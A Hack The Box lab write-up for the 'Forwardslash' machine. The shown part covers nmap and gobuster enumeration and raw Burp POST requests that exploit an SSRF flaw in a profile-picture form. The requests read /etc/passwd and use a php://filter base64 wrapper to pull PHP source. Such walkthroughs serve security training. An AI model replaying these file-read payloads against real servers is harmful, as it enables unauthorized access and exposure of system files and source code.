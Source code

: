 # Forwardslash - Hack The Box

![image]({{0xtaylur.github.io}}/assets/forwardslash/card.png)

## Summary
Forwardslash is a hard linux box that starts off with basic enumerations of vhosts, files, and directories. Using burp to perform a Server-Side Request Forgery (SSRF) vulnerability to access a protected dev directory that can only be accessed through localhost. Once I find credentials and get a shell, I exploit a backup program owned by user pain to find more credentials. Finally, I solve a crypto challenge to get root.

### Enumeration

A basic nmap scan shows 2 open ports: 22 for ssh and 80 for HTTP
```
root@kali:~/HTB/forwardslash# nmap -sC -sV -p22,80 forwardslash.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-04 11:28 EDT
Nmap scan report for forwardslash.htb (10.10.10.183)
Host is up (0.070s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3c:3b:eb:54:96:81:1d:da:d7:96:c7:0f:b4:7e:e1:cf (RSA)
|   256 f6:b3:5f:a2:59:e3:1e:57:35:36:c3:fe:5e:3d:1f:66 (ECDSA)
|_  256 1b:de:b8:07:35:e8:18:2c:19:d8:cc:dd:77:9c:f2:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Backslash Gang
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

When I browse the website with it's IP address, it redirected me to`forwardslash.htb`. So I added this domain name to my local host file to use the hostname instead. It seems as the website has been defaced by **The Backslash Gang**. There are no links or html comments that would help me decide what to do next.
![image]({{0xtaylur.github.io}}/assets/forwardslash/webpage.png)

Using gobuster to scan for vhosts give us a hit for`backup.forwardslash.htb`
```
root@kali:~/HTB/forwardslash# gobuster vhost -q -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 50 -u forwardslash.htb
Found: backup.forwardslash.htb (Status:302) [Size: 33]
```

I go to the backup subdomain to be greeted with a login page and a link to create an account.
![image]({{0xtaylur.github.io}}/assets/forwardslash/backup_login.png)
![image]({{0xtaylur.github.io}}/assets/forwardslash/signup.png)

Once I am logged in, I see a dashboard with a couple of options.
![image]({{0xtaylur.github.io}}/assets/forwardslash/dashboard.png)

I'll come back to this dashboard as I see nothing interesting yet.

After running a gobuster on the vhost, I find a`/dev`directory.
```
root@kali:~/HTB/forwardslash# gobuster dir -q -w /usr/share/seclists/Discovery/Web-Content/big.txt -u backup.forwardslash.htb
/dev (Status: 301)
```

If I try to access that page I get a custom 403 error message. My IP address is shown so this could be a hint that it can only be accessed locally.
![image]({{0xtaylur.github.io}}/assets/forwardslash/denied.png)

Going back the dashboard options, I notice the option to change my profile picture has been disabled.
![image]({{0xtaylur.github.io}}/assets/forwardslash/disabled.png)

This is just disabled client-side with the`disabled`HTML tag:
```html
<form action="/profilepicture.php" method="post">
        URL:
        <input type="text" name="url" disabled style="width:600px"><br>
        <input style="width:200px" type="submit" value="Submit" disabled>
</form>
```

Using Burp, I can send a POST request to`profilepicture.php`and send it to the repeater tab. After some testing with the URL parameter, I found I was able to use SSRF and read file with it. The first thing I tried was`/etc/passwd`.
![image]({{0xtaylur.github.io}}/assets/forwardslash/burp_etc.png)

From the`/etc/passwd` file, I find two users:`chiv`and`pain`

I remember how`/dev` could not be accessed from my box. By using the http URI handler in the`url` parameter I can send requests that originate from localhost to get around the IP restriction, reaching an API test page. I could not find anything useful out of this so I try to retrieve the PHP source code of`/dev/index.php`.
```
POST /profilepicture.php HTTP/1.1
Host: backup.forwardslash.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://backup.forwardslash.htb/welcome.php
DNT: 1
Connection: close
Cookie: PHPSESSID=7pqvee5324kd0gkakssmsprjtj
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Cache-Control: max-age=0
Content-Length: 16

url=///var/www/backup.forwardslash.htb/dev/index.php
```

This is the response I got:
![image]({{0xtaylur.github.io}}/assets/forwardslash/response.png)

I try to get around this by using a`PHP`wrapper and encoding it in base64.
```
POST /profilepicture.php HTTP/1.1
Host: backup.forwardslash.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://backup.forwardslash.htb/welcome.php
DNT: 1
Connection: close
Cookie: PHPSESSID=7pqvee5324kd0gkakssmsprjtj
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Cache-Control: max-age=0
Content-Length: 101

url=php://filter/convert.base64-encode/resource=file:///var/www/backup.forwardslash.htb/dev/index.php
```

We have a response encoded in base64 come back to us.
![image]({{0xtaylur.github.io}}/assets/forwardslash/base64.png)